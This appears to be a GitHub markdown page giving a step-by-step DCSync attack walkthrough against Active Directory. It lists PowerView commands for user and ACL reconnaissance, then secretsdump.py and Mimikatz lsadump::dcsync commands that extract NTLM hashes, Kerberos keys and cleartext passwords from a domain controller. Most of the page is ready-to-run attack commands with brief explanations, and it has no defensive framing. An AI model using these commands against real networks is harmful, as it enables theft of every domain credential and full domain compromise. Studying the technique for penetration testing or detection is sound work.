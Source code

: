 # Domain Controller Synchronization (dcsync)
## Overview
**DCSync** is an attack that leverages the Directory Replication Service Remote Protocol (DRSR) to impersonate a Domain Controller (DC) and request replication of password data from Active Directory (AD). By abusing the extended rights (specifically, the _DS-Replication-Get-Changes_ and _DS-Replication-Get-Changes-All_ permissions), an attacker can retrieve password hashes (and sometimes even cleartext passwords) for AD accounts.
### 1. Reconnaissance and User Enumeration

**Goal:** Identify the target user and verify their group memberships.
**Sample Command (using PowerView in PowerShell):**

```powershell
Get-DomainUser -Identity adunn | Select-Object samaccountname, objectsid, memberof, useraccountcontrol | Format-List
```

- **What It Does:** Retrieves details about the user (here, “adunn”), including the SID, group memberships, and account control settings.

---

### 2. Verify Replication Rights

**Goal:** Confirm that the target (or another account you control) has the required replication privileges.

**Sample Command (using PowerView):**

```powershell
$sid = "S-1-5-21-3842939050-3880317879-2865463114-1164"  # Replace with the actual SID
Get-ObjectAcl "DC=yourdomain,DC=com" -ResolveGUIDs |
    Where-Object { $_.ObjectAceType -match 'Replication-Get' } |
    Where-Object { $_.SecurityIdentifier -match $sid } |
    Select-Object AceQualifier, ObjectDN, ActiveDirectoryRights, SecurityIdentifier, ObjectAceType |
    Format-List
```

- **What It Does:** Scans the ACLs on the domain object (e.g., `DC=yourdomain,DC=com`) and filters for ACEs related to replication. Check for entries such as `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All` for the target SID.

---

### 3. Executing the DCSync Attack with Impacket’s secretsdump.py

**Goal:** Request replication from the DC and extract sensitive credential data.

**Sample Command (from a Linux or Windows system with Python and Impacket installed):**

```bash
secretsdump.py -outputfile domain_hashes -just-dc YOURDOMAIN/targetUser@targetIP
```

- **Parameters:**
    - `YOURDOMAIN`: Replace with your actual domain name.
    - `targetUser`: The username that has replication privileges.
    - `targetIP`: The IP address of the domain controller.
- **What It Does:** Initiates a replication request mimicking a DC. It writes out the NTLM hashes, Kerberos keys, and, if applicable, cleartext passwords to files prefixed with `domain_hashes`.

**After Running, List the Files:**

```bash
ls domain_hashes*
```

- **Expected Files:**
    - `domain_hashes.ntds` – Contains NTLM hashes.
    - `domain_hashes.ntds.kerberos` – Contains Kerberos keys.
    - `domain_hashes.ntds.cleartext` – Contains any cleartext credentials (if reversible encryption is enabled).

---

### 4. Executing the DCSync Attack with Mimikatz

**Goal:** Use Mimikatz to request replication data from the DC in-memory.
#### 4.1 Launch a Privileged PowerShell Session

**Using runas.exe to open a session as the target user:**

```cmd
runas /netonly /user:YOURDOMAIN\targetUser powershell
```

- **Enter the password** when prompted.

#### 4.2 Run Mimikatz in the Elevated Session

**Start Mimikatz:**

```powershell
.\mimikatz.exe
```

**Inside Mimikatz, run the DCSync command:**

```mimikatz
lsadump::dcsync /domain:YOURDOMAIN.LOCAL /user:YOURDOMAIN\administrator
```

- **What It Does:** Requests replication data for the `administrator` account (or another account of your choice) from the domain controller. Mimikatz will display information including the NTLM hash and other credential details.
